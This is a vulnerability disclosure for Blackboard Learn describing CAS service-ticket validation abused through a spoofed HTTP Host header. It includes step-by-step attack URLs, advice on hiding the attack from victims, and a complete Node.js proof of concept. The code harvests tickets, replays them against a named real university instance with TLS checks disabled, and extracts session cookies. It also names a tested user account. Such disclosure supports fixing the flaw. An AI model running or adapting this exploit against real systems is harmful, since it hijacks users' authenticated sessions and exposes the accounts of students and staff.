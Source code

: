 # Blackboard Learn CAS Ticket Host Header Spoofing 

An authentication module within Blackboard Learn is susceptible to HTTP host
header spoofing during Central Authentication Service (CAS) *service ticket*
validation. A CAS service ticket is intended for only a specific *service*, but
Blackboard Learn does not properly verify that this service is the current
instance. This allows a phishing attack where users believe they are entering
their single-signon details for a certain website, when that malicious website
instead uses the *service ticket* to athenticate as that user to a Blackboard
Learn instance.

## Requirements

  - The Blackboard Learn instance must be configured to authenticate with CAS.
  - A malicious website must be setup to authenticate with that same CAS server.

## Steps to Reproduce

An attacker would setup `attacker.example` in order to athenticate as another
user to a Blackboard Learn instance at `blackboard.example`, which validates
service tickets through `cas.example`.

The following events happen when a user vists `attacker.example`.

  1. The user will be redirected to their institutions CAS login page at:
     `https://cas.example/cas/login?service=https%3A%2F%2Fattacker.example%2Fwebapps%2Fbb-auth-provider-cas-BB5849b9bae4172%2Fexecute%2FcasLogin%3Fcmd%3Dlogin%26authProviderId%3D_102_1%26redirectUrl%3Dhttps%253A%252F%252Fblackboard.example%252Fwebapps%252Fportal%252Fexecute%252FdefaultTab%26globalLogoutEnabled%3Dtrue&renew=true`
  2. The user now sees a login page at `cas.example`. They will most likely
     trust it since this is their institution's standard login screen on a
     trusted domain. The login page will say they are authenticating to
     `attacker.example`.
  3. Upon login, the user will be redirected to back to `attacker.example`: `https://attacker.example/webapps/bb-auth-provider-cas-BB5849b9bae4172/execute/casLogin?cmd=login&authProviderId=_102_1&redirectUrl=https%3A%2F%2Fblackboard.example%2Fwebapps%2Fportal%2Fexecute%2FdefaultTab&globalLogoutEnabled=true&ticket=ST-94783-BFdVJYDvsbi2HR0gXvy6-cas.example`
  4. On its backend, `attacker.example` will now perform an HTTP GET request
     against `blackboard.example` using the service ticket
     `ST-94783-BFdVJYDvsbi2HR0gXvy6-cas.example` retrieved in the last step. The
     GET request will access `blackboard.example` with a host header of:
     `attacker.example`: `https://attacker.example//webapps/bb-auth-provider-cas-BB5849b9bae4172/execute/casLogin?cmd=login&authProviderId=_102_1&redirectUrl=https%3A%2F%2Fblackboard.example%2Fwebapps%2Fportal%2Fexecute%2FdefaultTab&globalLogoutEnabled=true&ticket=ST-94783-BFdVJYDvsbi2HR0gXvy6-cas.example`
  5. `blackboard.example` will respond to the `attacker.example` backend with
     cookies authenticating the target user to the Blackboard Learn instance.

If `attacker.example` is a website individuals at an institution regularly trust
(ex: the institution homepage), that website being compromised would mean the
institution's Blackboard Learn instance is also reasonable compromised with
this vulnerability.

To prevent suspicion, `attacker.example` could redirect the user back to the
`sso.example` login page after step 5 and perform the expected duties
`attacker.example` was meant for from there. The user would see that they have
to hit "log in" twice, but the redirection happens quickly enough the user
couldn't be sure they left the login page and came back.

## Relationship to CVE-2017-18262

It should be noted that CVE-2017-18262 is distinct from this vulnerability.
CVE-2017-18262 is a vulnerability in `redirectTo` validation. This vulnerability
involves a flaw in the `service` URL param sent to the validating login
endpoint.

Using CVE-2017-18262 to phish credentials requires setting up a phishing login
that would mimicks the appearance of `cas.example`. This vulnerability happens
directly on `cas.example`, but requires the user to initially visit
`attacker.example`.

## Testing

This was tested against `lms.uconn.edu` with `brc15007` as the spoofed user.
`lms.uconn.edu` is a Blackboard Learn instance managed by Blackboard Inc. hosted
on Amazon Web Services.

## POC

index.js
```javascript
const crypto = require('crypto')
const Koa = require('koa')
const session = require('koa-session')
const FakeCas = require('./lib/fake-cas')
// The koa-basic-auth module is used purely to protect this POC from being used
// by unauthorized test users.
const auth = require('koa-basic-auth')

const CAS_SERVER = 'https://login.uconn.edu'
const BLACKBOARD_INSTANCE = 'https://lms.uconn.edu'
const VULNERABLE_ENDPOINT = `/webapps/bb-auth-provider-cas-BB5849b9bae4172/execute/casLogin?cmd=login&authProviderId=_102_1&redirectUrl=${encodeURIComponent(BLACKBOARD_INSTANCE)}%2Fwebapps%2Fportal%2Fexecute%2FdefaultTab&globalLogoutEnabled=true`

const POC_APP_USERNAME = 'i-accept-that-my-login-will-be-spoofed-for-testing'
const POC_APP_PASSWORD = 'fH71FnffjycEtMLdqd2zCAwavDzW8HdCaayHrQ4E'

const app = new Koa()

app.keys = [crypto.randomBytes(256)]
app.use(session(app))

app.use(auth({ name: POC_APP_USERNAME, pass: POC_APP_PASSWORD }))

const cas = FakeCas({
  service: ctx => `https://${ctx.host}${VULNERABLE_ENDPOINT}`,
  server: CAS_SERVER
})

app.use(cas.fakeCredentialRequestor({
  attackUrl: ticket =>
    BLACKBOARD_INSTANCE +
    VULNERABLE_ENDPOINT +
    '&ticket=' + ticket
}))

app.use(async ctx => {
  ctx.body = `If I was a bad person, I would use the following cookies to login as you into ${BLACKBOARD_INSTANCE}.\n\n` +
    ctx.session.cookieString
  ctx.session = null
})

app.listen(3000)
```

lib/fake-cas.js
```javascript
const https = require('https')
const fetch = require('isomorphic-fetch')

function createCASMiddleware (options = {}) {
  const server = options.server
  const service = options.service
  const loginUrl = options.login || '/cas/login'

  function fakeCredentialRequestor ({ attackUrl }) {
    return async (ctx, next) => {
      if (!ctx.session.cookieString && !ctx.request.query.ticket) {
        const returnUrl = encodeURIComponent(service(ctx))
        ctx.redirect(
          server + loginUrl +
          '?service=' + returnUrl +
          '&renew=true')
        return
      }

      if (ctx.request.query.ticket) {
        const attack = attackUrl(ctx.request.query.ticket)
        const res = await fetch(attack, {
          headers: { 'host': ctx.request.host },
          // rejectUnauthorized is required since we're spoofing the host
          // header and ctx.request.host liekly won't be in the endpoint's HTTPS
          // certificate.
          agent: new https.Agent({ rejectUnauthorized: false })
        })

        const cookieString = res.headers._headers['set-cookie']
          .map(cookie => cookie.match(/^(.*?);/)[1])
          .map(cookie => `document.cookie = '${cookie}'`)
          .join('\n')

        ctx.session.cookieString = cookieString
        console.log(cookieString)

        ctx.status = 308
        ctx.redirect('/')
        return
      }

      await next()
    }
  }

  return { fakeCredentialRequestor }
}

module.exports = createCASMiddleware
```

package.json
```json
{
  "private": true,
  "main": "index.js",
  "scripts": {
    "dev": "nodemon index"
  },
  "devDependencies": {
    "nodemon": "^1.17.5",
    "standard": "^11.0.1"
  },
  "dependencies": {
    "isomorphic-fetch": "^2.2.1",
    "koa": "^2.5.1",
    "koa-basic-auth": "^3.0.0",
    "koa-session": "^5.8.1",
    "query-string": "^5.0.1",
    "xml2js": "^0.4.19"
  }
}
```
